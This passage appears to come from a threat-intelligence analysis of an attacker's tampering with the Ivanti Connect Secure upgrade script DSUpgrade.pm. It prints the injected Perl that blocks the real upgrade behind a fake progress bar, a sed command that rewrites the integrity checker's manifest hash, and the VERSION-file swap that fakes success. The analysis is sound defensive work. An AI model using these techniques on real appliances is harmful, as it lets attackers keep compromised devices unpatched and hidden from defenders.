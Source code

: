 The modification occurs within a function in `DSUpgrade.pm` responsible for installing the new upgrade package. The inserted call to `processUpgradeDisplay()` with the early return makes the legitimate `popen()` call to execute `/pkg/dspkginstall` unreachable. The following provides the relevant excerpt from `DSUpgrade.pm` as a result of the modification.

```
local *FH;
my $prog = "/pkg/dspkginstall /var/tmp/new-pack.tgz";
if (defined $useUpgradePartition && $useUpgradePartition == 1) {
  $prog = "/pkg/dspkginstall /data/upgrade/new-pack.tgz";
}

processUpgradeDisplay($prog, $console, $html);
return 0;
popen(*FH, $prog);
```

The modification intercepts the standard upgrade flow by calling the maliciously created `processUpgradeDisplay()` function before the legitimate upgrade command executes. The figure below provides an excerpt of the inserted `processUpgradeDisplay()` function that displays a fake HTML upgrade progress bar, using the `sleep` command to add dots every second to mimic a running process.

```
$mystep = 13;
$count = 0;
$sleep_time = 2;
$myline = "Finalizing installation";
print $html "<li style=\"margin:6px;\">Step $mystep: $myline ...";
print $console "$myline ...";
while ($count < $sleep_time) {
      system("/bin/sleep 1");
      print $html ".";
      print $console ".";
      ++$count;
}
print $html " complete ($sleep_time seconds)</li>\n";
print $console " complete ($sleep_time seconds)\r\n";
```

Recent versions of Ivanti Connect Secure have a built-in integrity checker tool (ICT) that periodically scans the file system to detect new or modified system files that may be indicative of system compromise. The ICT uses a manifest during its scanning process, containing a list of the expected file paths on the system along with its expected SHA256 hash. In an attempt to circumvent the ICT scanner, the threat actor recalculates the SHA256 hash of the modified `DSUpgrade.pm` and inserts it into the manifest.

```
sed -i "s/$(grep /home/perl/DSUpgrade.pm 
/home/etc/manifest/manifest -a |grep -oE 
'[0-9a-f]{64}')/$(/home/bin/openssl dgst -sha256 
/home/perl/DSUpgrade.pm |grep -oE '[0-9a-f]{64}')/g" 
/home/etc/manifest/manifest;
```

The threat actor copies the `VERSION` file from the mounted upgrade partition (`tmp/root/home/VERSION`) to the current version partition (`/home/VERSION`). As a result, the system falsely indicates a successful upgrade while continuing to run on the old appliance version.
